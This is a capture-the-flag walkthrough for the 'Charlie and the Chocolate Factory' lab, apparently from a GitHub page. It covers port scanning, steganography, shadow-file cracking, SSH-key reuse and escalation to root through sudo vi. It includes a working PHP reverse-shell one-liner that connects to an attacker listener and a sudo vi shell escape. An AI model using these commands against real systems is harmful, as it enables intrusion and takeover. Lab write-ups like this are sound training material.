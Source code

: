```yaml
---
title: charlie and the chocolate factory CTF
premalink: /chocolate
---
```

# Charlie and the Chocolate Factory

## Open Ports:
```
nmap -A $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : http://localhost/key_rev_key
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

** Now you have the access to the machine**
* go to /home/charlie

* You will find teleport file which is a id_rsa file(ssh-key)
* copy the contents of the file to host machine
* change the permission of the teleport file in the host machine
```
chmod 600 teleport
ssh -i teleport charlie@ip
```
## Port 22

* cd /home/charlie
```
cat uesr.txt
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
## root 


* go to /root
```
python root.py
```
* Enter the key found after reversing

